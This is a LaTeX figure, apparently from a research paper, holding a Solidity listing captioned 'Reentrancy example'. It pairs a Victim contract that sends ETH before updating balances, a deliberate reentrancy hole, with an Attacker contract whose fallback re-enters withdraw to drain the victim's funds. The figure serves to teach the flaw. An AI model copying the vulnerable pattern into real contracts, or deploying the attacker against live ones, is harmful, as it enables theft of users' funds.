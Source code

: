 \lstset{numbers=left,xleftmargin=2em,frame=single,framexleftmargin=2em}

\begin{figure}[H]
\vspace{-4mm}
\begin{footnotesize}
\begin{lstlisting}[language=Solidity,caption={Reentrancy example},label={listing:reentrancy-example}]
contract Victim {
    mapping(address => uint256) public blc;
    function withdraw(uint256 _amount) public {
        require(_amount <= blc[msg.sender]);
        // Transfer ETH to the caller
        msg.sender.call{value: _amount}();
        // Update the caller's balance
        blc[msg.sender] -= _amount;
    }
}
contract Attacker {
    Victim private vic;
    address private owner;
    // Used to initiate the attack
    function attack() public {
        require(msg.sender == owner);
        vic.withdraw(vic.blc(address(this)));
        owner.transfer(this.balance);
    }
    fallback() external payable {
        uint256 v = vic.blc(address(this));
        if (address(vic).balance >= v)
            // Reenter victim to drain its ETH
            vic.withdraw(v);
    }
}
\end{lstlisting}
\end{footnotesize}
\vspace{-6mm} %
\end{figure}
